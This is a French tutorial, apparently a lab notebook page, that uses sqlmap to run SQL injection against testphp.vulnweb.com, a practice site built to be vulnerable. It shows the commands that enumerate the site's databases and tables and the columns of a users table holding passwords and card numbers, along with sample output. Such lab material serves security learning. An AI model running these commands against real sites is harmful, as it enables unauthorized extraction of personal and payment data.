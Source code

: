 # Sand box et SQLMAP

On va ici tenter de pénétrer un [site web ](http://testphp.vulnweb.com/)\(prévu à cet effet\) pour tester des attaques par injections SQL. Notamment avec l'utilisation du logiciel SQLMAP.

## Présentation du site

![preview du site](../.gitbook/assets/capture-de-cran-2021-08-13-a-20.40.45.png)

C'est un site qui regroupe des artistes par catégorie, avec des descriptions par artistes etc. et il est sensible aux injections SQL.

On peut vérifier cette sensibilité en ajoutant un guillemet simple à la fin de l'url, car il retourne une erreur sql.



## Par injections SQL à la main



## À l'aide de SQLMAP

#### 1. On commence par taper la commande suivante pour lister toutes les databases utilisées à cette url :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs 
```

Vous devriez avoir à la fin du processus, quelque chose comme ça :

```bash
[21:23:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:23:03] [INFO] fetching database names
available databases [2]:

[*] acuart
[*] information_schema
```

On remarque ainsi la présence de 2 databases pour cette url.

#### 2. À partir de la, on peut récupérer le nom des tables des databases que l'on souhaite, par exemple ici la database acuart, avec la commande :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --tables -D acuart
```

Vous obtiendrai à la fin de ce processus, le nom des tables de la database acuart :

```text
[21:28:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:28:51] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```

#### 3. Notre but étant de pouvoir obtenir les informations des utilisateurs, on va s'intéresser à la table users, et afficher ses attributs :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --columns -D acuart -T users
```

Vous obtiendrai finalement le descriptif des attributs de la tables users, de la database acuart :

```text
[21:34:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:34:10] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+
```



